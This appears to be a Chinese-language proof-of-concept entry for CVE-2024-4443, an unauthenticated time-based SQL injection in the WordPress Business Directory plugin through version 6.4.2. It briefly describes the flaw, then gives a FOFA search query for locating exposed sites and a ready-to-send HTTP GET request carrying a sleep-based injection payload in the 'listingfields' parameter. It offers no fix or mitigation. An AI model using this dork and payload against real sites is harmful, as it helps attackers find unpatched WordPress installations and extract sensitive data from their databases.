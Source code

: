 ## WordPress的Business-Directory插件存在sql注入漏洞(CVE-2024-4443)

在 6.4.2 及之前的所有版本中，WordPress 的 Business Directory 插件 – Easy Listing Directorys for WordPress 插件很容易通过“listingfields”参数受到基于时间的 SQL 注入，因为对用户提供的参数转义不足且缺乏对现有 SQL 查询进行充分的准备。这使得未经身份验证的攻击者可以将额外的 SQL 查询附加到现有的查询中，这些查询可用于从数据库中提取敏感信息

## fofa

```
"/wp-content/plugins/business-directory" && icon_hash="1198047028"
```

## poc

```
GET /business-directory/?dosrch=1&q=&wpbdp_view=search&listingfields[+or+sleep(if(1=1,5,0))+))--+-][1]= HTTP/1.1
Host: 
```



![image-20240528091010272](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405280910316.png)